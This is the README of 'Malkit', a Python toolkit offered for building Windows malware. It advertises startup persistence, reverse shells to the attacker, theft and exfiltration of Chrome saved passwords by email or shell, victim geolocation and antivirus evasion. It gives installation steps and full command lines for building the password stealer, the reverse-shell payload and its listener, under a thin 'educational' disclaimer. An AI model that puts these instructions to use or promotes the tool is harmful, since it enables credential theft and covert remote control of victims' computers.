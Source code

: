 <h1 align='center'>Malkit - Full malware kit</h1>
<p align="center">	
    <img src="https://img.shields.io/badge/Platform-Windows-green?style=plastic" />
	<a href="https://github.com/darkarp/malkit/releases/latest?style=plastic">
	<img src="https://img.shields.io/github/v/release/darkarp/malkit?style=plastic" alt="Release" />
	</a>
    <img src="https://img.shields.io/badge/build-passing-green?style=plastic" alt="Build Status on CircleCI" />
    <img src="https://img.shields.io/maintenance/yes/2021" />
	</br>
  
  <a href="https://github.com/darkarp/malkit/commits/master">
    <img src="https://img.shields.io/github/last-commit/darkarp/malkit?style=plastic" />
  </a>
  <img alt="Scrutinizer code quality (GitHub/Bitbucket)" src="https://img.shields.io/scrutinizer/quality/g/darkarp/malkit?style=flat">


  <a href="https://github.com/darkarp/malkit/blob/master/LICENSE">
    <img src="https://img.shields.io/github/license/darkarp/malkit?style=plastic" />
  </a>


  </br>

  <a href="https://github.com/darkarp/malkit/issues?q=is%3Aopen+is%3Aissue">
	<img alt="GitHub issues" src="https://img.shields.io/github/issues/darkarp/malkit?style=plastic">
</a>

<a href="https://github.com/darkarp/malkit/issues?q=is%3Aissue+is%3Aclosed">
	<img alt="GitHub closed issues" src="https://img.shields.io/github/issues-closed/darkarp/malkit">
</a>
</br>
  <a href="https://discord.gg/beczNYP">
    <img src="https://img.shields.io/badge/discord-join-7289DA.svg?logo=discord&longCache=true&style=flat" />
  </a>
  </br>
    <a href="https://github.com/darkarp/chromepass/issues/new?assignees=&labels=&template=bug_report.md&title=">Report Bug</a>
    ·
    <a href="https://github.com/darkarp/chromepass/issues/new?assignees=&labels=&template=feature_request.md&title=">Request Feature</a>
  </p>  
  
  
<!-- TABLE OF CONTENTS -->
## Table of Contents

* [About the Project](#about-the-project)  
	* [AV Detection](#av-detection)
* [Getting started](#getting-started)
  * [Prerequisites](#dependencies-and-requirements)
  * [Installation](#installation)
* [Usage](#usage)
* [Todo](#todo)
* [Errors, Bugs and Feature Requests](#errors-bugs-and-feature-requests)
* [Learn More](#learn-more)
* [License](#license)

## About The project
Malkit is a python-based console application that generates runtime-decrypted undetectable windows executables.
It has the following features:
  - Copying itself into startup as a legitimate application
  - Connecting back to an attacker via reverse shell
  - Custom listener with upload, download and modular capability (in progress)
  - Chromepass feature:
    - Decrypt Chrome saved paswords
    - Send a file with the login/password combinations remotely (email or reverse shell)
    - Custom icon
    - Custom error message
  - Accurate location reporting. It can detect and send back a victim's accurate geolocation (not ip-based) (X)
  - Easy to use
  - Completely undetectable by AV engines

Features marked with an X are still in development and aren't fully working but are already complete in internal testing.
### AV Detection!
Due to the way this has been coded, it is currently fully undetected. Here are some links to scans performed
  - [From build_malware](https://www.virustotal.com/gui/file/61fc9c4ad472a240f4fd010958a0b0210f6513ed878bd47b90e25da871e52068/detection) 
  - [From build_chromepass](https://antiscan.me/scan/new/result?id=kmpsMNccfuRJ)
  - Both scans yielded the result: 1.69 detections. The sole detection is a false positive by Sangfor Engine Zero
  - this is an educational project, so distribution (or the lack thereof) is not a concern, hence the usage of VirusTotal

## Getting started

### Dependencies and Requirements

This is a very simple application, which uses only:

* [Python] - Only tested on 3.7.5 on Anaconda environment but should work in 3.6+ (Doesn't work in 3.8 yet)

### Installation

Chromepass requires [Python] 3.6+ to run.
It has been tested on a full anaconda installation but it doesn't necessariliy require it.
The instructions on the full setup are below.

Setup Anaconda environment:
  - Visit [Anaconda](https://www.anaconda.com/distribution/#download-section) and download the graphical installer for windows.
  - Run the installer and make sure you select the checkbox "Add conda to path", even though it isn't recommended.
  - Update anaconda by opening powershell and typing:
     - `conda init powershell`
     - `conda update conda`
  - Create a new anaconda environment:
    - `conda create -n malkit python=3.7`
  - Activate your environment:
    - `conda activate malkit`
Note: Every time you open a new powershell and want to run malkit you need to activate your environment.

Clone the Repository and access its directory:
```powershell
> git clone https://github.com/darkarp/malkit.git
> cd malkit
```
Install the dependencies:

```powershell
> pip install -r requirements.txt
```

If any errors occur make sure you're running on the proper environment (if applcable) and that you have python 3.6+ < 3.8 (preferably 3.7.5).
If the errors persist, try:
```powershell
> python -m pip install --upgrade pip
> python -m pip install -r requirements.txt
```  

## Usage

* Show the help screen

```powershell
> python malkit.py -h
```
```
usage: python malkit.py [-h] {build_listener, build_malware, build_chromepass} ...

positional arguments:
  {build_listener, build_malware, build_chromepass}

optional arguments:
  -h, --help            show this help message and exit

Access the help menu for individual arguments
```
```powershell
>python malkit.py build_chromepass -h
```
```
usage: python malkit.py build_chromepass [-h] [--load] [--email] [--reverse_shell]
                                  [--no_error]
                                  [--errormsg Error message to appear]
                                  [--address Email address to send details to, if Email was chosen]
                                  [--port Port for reverse connection, if Reverse shell was chosen.]
                                  [--host Host reverse connection, if Reverse shell was chosen.]

optional arguments:
  -h, --help            show this help message and exit
  --load
  --email
  --reverse_shell
  --no_error
  --errormsg Error message to appear
  --address Email address to send details to, if Email was chosen
  --port Port for reverse connection, if Reverse shell was chosen.
  --host Host reverse connection, if Reverse shell was chosen.

example:

 python malkit.py build_chromepass --email --address myemail@gmail.com
 python malkit.py build_chromepass --reverse_shell --host 127.0.0.1 -p 4444
 python malkit.py build_chromepass --load myfile.conf
 ```

 * Grabbing and sending chrome-saved passwords through email
 `python malkit.py build_chromepass --email --address youremailaddress@yourdomain.com`

 * Creating a persistent reverse_shell with additional features
 `python malkit.py build_malware --host 127.0.0.1 -p 444`
  - Replace the host with your external/internal ip as needed
  - Replace the port as needed
  - Make sure you build the listener as well and run it.
 
 * Creating a listener for the malware
 `python malkit.py build_listener -p 444`
  - This is the listener for the malware


## Todo
 - Sending Real-time precise location of the victim (***completed, releases next update***)
 - Also steal Firefox passwords (***Completed, releases next update***)
 - Option of installing a backdoor allowing remote control of the victim's computer (***completed, releases next update***)
 - Also steal passwords from other programs, such as keychains(***in progress***)
 - Better encryption (***Completed, releases into beta version***)
 
## Errors, Bugs and feature requests

If you find an error or a bug, please report it as an issue.
If you wish to suggest a feature or an improvement please report it in the issue pages.

Please follow the templates shown when creating the issue.

## Learn More

For access to a community full of aspiring computer security experts, ranging from the complete beginner to the seasoned veteran,
join our Discord Server: [WhiteHat Hacking](https://discord.gg/beczNYP)

If you wish to contact me, you can do so via: marionascimento@itsec.bz

## Disclaimer
I am not responsible for what you do with the information and code provided. This is intended for professional or educational purposes only.

## License
<a href="https://github.com/darkarp/malkit/blob/master/LICENSE"> MIT </a>
   
[Python]: <https://www.anaconda.com/distribution/#download-section>


